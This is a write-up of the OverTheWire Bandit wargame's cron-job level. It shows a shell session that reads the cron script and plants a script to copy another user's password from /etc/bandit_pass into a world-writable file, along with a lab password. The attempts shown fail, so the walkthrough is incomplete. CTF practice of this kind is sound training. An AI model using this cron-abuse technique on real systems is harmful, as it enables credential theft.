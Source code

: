 # Level 22 -> 23

## Objetivo

-   A program is running automatically at regular intervals from **cron**, the time-based job scheduler. Look in **/etc/cron.d/** for the configuration and see what command is being executed. Find the password for the next lvl.

## Datos de acceso

-   Host: bandit.labs.overthewire.org
-   Port: 2220
-   User: bandit23
-   Password: QYw0Y2aiA672PsMmh9puTQuhoz8SyR2G

## Solución

-   Follow the same steps as above, instead of the password, you will find a command, assign the name "bandit23" to myname, then run the command shown. Find the way to discover the password.

```
bandit23@bandit:~$ cd /etc/cron.d
bandit23@bandit:/etc/cron.d$ ls
cronjob_bandit15_root  cronjob_bandit22  cronjob_bandit24       e2scrub_all  sysstat
cronjob_bandit17_root  cronjob_bandit23  cronjob_bandit25_root  otw-tmp-dir
bandit23@bandit:/etc/cron.d$ cat cronjo_bandit24
cat: cronjo_bandit24: No such file or directory
bandit23@bandit:/etc/cron.d$ cat cronjob_bandit24
@reboot bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
* * * * * bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
bandit23@bandit:/etc/cron.d$ cat /usr/bin/cronjob_bandit24.sh
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname/foo
echo "Executing and deleting all scripts in /var/spool/$myname/foo:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        owner="$(stat --format "%U" ./$i)"
        if [ "${owner}" = "bandit23" ]; then
            timeout -s 9 60 ./$i
        fi
        rm -f ./$i
    fi
done

bandit23@bandit:/etc/cron.d$ cd /var/spool/bandit24
bandit23@bandit:/var/spool/bandit24$ mkdir /tmp/passtmp
mkdir: cannot create directory ‘/tmp/passtmp’: File exists
bandit23@bandit:/var/spool/bandit24$ mkdir /tmp/passtempp
bandit23@bandit:/var/spool/bandit24$ cd /tmp/passtempp
bandit23@bandit:/tmp/passtempp$ echo "cat /etc/bandit_pass/bandit24 >> /tmp/passtempp/password" > mio.sh
bandit23@bandit:/tmp/passtempp$ chmod 777 mio.sh
bandit23@bandit:/tmp/passtempp$ cat mio.sh
cat /etc/bandit_pass/bandit24 >> /tmp/passtempp/password
bandit23@bandit:/tmp/passtempp$ touch password
bandit23@bandit:/tmp/passtempp$ chmod 666 password
bandit23@bandit:/tmp/passtempp$ cp mio.sh /var/spool/bandit24
cp: cannot create regular file '/var/spool/bandit24/mio.sh': Operation not permitted
bandit23@bandit:/tmp/passtempp$ ls -la
total 236
drwxrwxr-x   2 bandit23 bandit23   4096 Sep 12 18:50 .
drwxrwx-wt 948 root     root     229376 Sep 12 18:51 ..
-rwxrwxrwx   1 bandit23 bandit23     57 Sep 12 18:50 mio.sh
-rw-rw-rw-   1 bandit23 bandit23      0 Sep 12 18:50 password
bandit23@bandit:/tmp/passtempp$ cp mio.sh /var/spool/bandit24
cp: cannot create regular file '/var/spool/bandit24/mio.sh': Operation not permitted
bandit23@bandit:/tmp/passtempp$ cat password
bandit23@bandit:/tmp/passtempp$ ls -la mio.sh
-rwxrwxrwx 1 bandit23 bandit23 57 Sep 12 18:50 mio.sh
bandit23@bandit:/tmp/passtempp$ ls -la password
-rw-rw-rw- 1 bandit23 bandit23 0 Sep 12 18:50 password
bandit23@bandit:/tmp/passtempp$ cp mio.sh /var/spool/bandit24
cp: cannot create regular file '/var/spool/bandit24/mio.sh': Operation not permitted
bandit23@bandit:/tmp/passtempp$
```

Notas adicionales
